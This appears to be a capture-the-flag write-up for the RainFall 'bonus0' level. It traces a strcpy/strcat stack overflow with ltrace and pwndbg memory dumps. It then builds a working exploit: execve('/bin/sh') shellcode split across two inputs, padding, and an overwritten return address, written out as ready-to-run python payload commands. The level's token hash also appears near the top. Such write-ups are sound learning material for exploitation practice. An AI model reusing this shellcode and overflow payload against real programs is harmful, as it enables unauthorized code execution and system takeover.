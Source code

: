 bonus0:f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

```
bonus0@RainFall:~$ ltrace ./bonus0 
__libc_start_main(0x80485a4, 1, 0xbffff7e4, 0x80485d0, 0x8048640 <unfinished ...>
puts(" - " - 
)                                                                                                = 4
read(0, AAAA
"AAAA\n", 4096)                                                                                    = 5
strchr("AAAA\n", '\n')                                                                                     = "\n"
strncpy(0xbffff6c8, "AAAA", 20)                                                                            = 0xbffff6c8
puts(" - " - 
)                                                                                                = 4
read(0, BBBB
"BBBB\n", 4096)                                                                                    = 5
strchr("BBBB\n", '\n')                                                                                     = "\n"
strncpy(0xbffff6dc, "BBBB", 20)                                                                            = 0xbffff6dc
strcpy(0xbffff716, "AAAA")                                                                                 = 0xbffff716
strcat("AAAA ", "BBBB")                                                                                    = "AAAA BBBB"
puts("AAAA BBBB"AAAA BBBB
)                                                                                          = 10
+++ exited (status 0) +++
```

host ip => `10.12.3.6`

ask for 2 input => read 4096 bytes
copy 20 first bytes to `0xbffff6c8` for the first input and to `0xbffff6dc` for the second
address buffer 4096 in p = `0xbfffe680`
address main buffer = `0xbffff736`

found 2 functions => `p` and `pp`

first input => 20 * "A"
second input => 19 * "B" + "\n"

```
pwndbg> x/12w 0xff963e88
0xff963e88:     0x41414141      0x41414141      0x41414141      0x41414141
0xff963e98:     0x41414141      0x00000001      0x08048034      0x00000000
0xff963ea8:     0xf7f66000      0x00000000      0x00000000      0xf7f22000
```
after both inputs
```
pwndbg> x/12w 0xff963e88
0xff963e88:     0x41414141      0x41414141      0x41414141      0x41414141
0xff963e98:     0x41414141      0x42424242      0x42424242      0x42424242
0xff963ea8:     0x42424242      0x00424242      0x00000000      0xf7f22000
```

copy in main buffer
```
pwndbg> x/12x 0xff963ed6
0xff963ed6:     0x41414141      0x41414141      0x41414141      0x41414141
0xff963ee6:     0x41414141      0x42424242      0x42424242      0x42424242
0xff963ef6:     0x42424242      0x00424242      0x20000000      0x2000f7f2
```

space added to main buffer
```
pwndbg> x/12w 0xff963ed6
0xff963ed6:     0x41414141      0x41414141      0x41414141      0x41414141
0xff963ee6:     0x41414141      0x42424242      0x42424242      0x42424242
0xff963ef6:     0x42424242      0x20424242      0x20000000      0x2000f7f2
```

cat b at the end of main buffer, main buffer 59 bytes long, supposed to be 42 bytes long
```
pwndbg> x/16x 0xff963ed6
0xff963ed6:     0x41414141      0x41414141      0x41414141      0x41414141
0xff963ee6:     0x41414141      0x42424242      0x42424242      0x42424242
0xff963ef6:     0x42424242      0x20424242      0x42424242      0x42424242
0xff963f06:     0x42424242      0x42424242      0x00424242      0x3fb40000
```

5 last bytes are at the return pointer

payload => 
    first input: 20 first bytes of shellcode + padding to fill up the buffer
`\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89`
    second input: 19 bytes (remaining bytes for shellcode + padding (8 bytes) + address main buffer + 1)
`\xc2\x6a\x0b\x58\xcd\x80` + 8 * "C" + 4 bytes address + random char

main buffer address => `0xbffff736` got with ltrace

shellcode => `\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80`

payload template => `python2 -c 'print "A" * 4091 + "XXXX\x0a" + 14 * "C" + "BBBBD"' > payload`

payload => `python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89" + "A" * 4075 + "\x0a" + "\xc2\x6a\x0b\x58\xcd\x80" + 8 * "C" + "\x36\xf7\xff\xbf" + "D"' > /tmp/payload`
